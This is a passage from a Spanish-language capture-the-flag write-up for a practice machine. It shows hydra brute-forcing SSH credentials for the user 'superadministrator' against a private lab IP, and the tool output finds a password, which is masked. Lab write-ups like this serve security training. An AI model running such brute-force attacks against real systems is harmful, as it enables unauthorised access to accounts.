 <img src="/assets/images/THL-writeup-bocataCalamar/Captura12.png">
</p>

Tenemos dos usuarios, quizá algunos de ellos podamos obtener su contraseña.

<br>

<h2 id="FuerzaBruta">Aplicando Fuerza Bruta a Usuario del Servicio SSH y Ganando Acceso a la Máquina Víctima</h2>

Utilizaremos la herramienta **hydra** para aplicar la fuerza bruta a los usuarios del **servicio SSH**.

De los dos usuarios existentes, del que podemos encontrar su contraseña, es del **usuario superadministrator**:
```bash
hydra -l 'superadministrator' -P /usr/share/wordlists/rockyou.txt ssh://192.168.10.220 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-24 13:22:10
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://192.168.10.220:22/
[22][ssh] host: 192.168.10.220   login: superadministrator   password: ******
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 21 final worker threads did not complete until end.
[ERROR] 21 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-24 13:22:20
```
